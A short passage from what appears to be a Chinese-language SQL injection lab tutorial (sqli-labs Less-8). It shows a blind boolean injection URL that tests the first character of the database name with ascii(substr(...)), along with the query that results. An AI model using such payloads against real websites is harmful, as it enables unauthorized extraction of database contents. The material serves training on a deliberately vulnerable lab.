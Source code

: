 ![](image/ascii.png)

下面同样以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115#' LIMIT 0,1;
;
```

网站的反应为：

![](image/11.jpg)

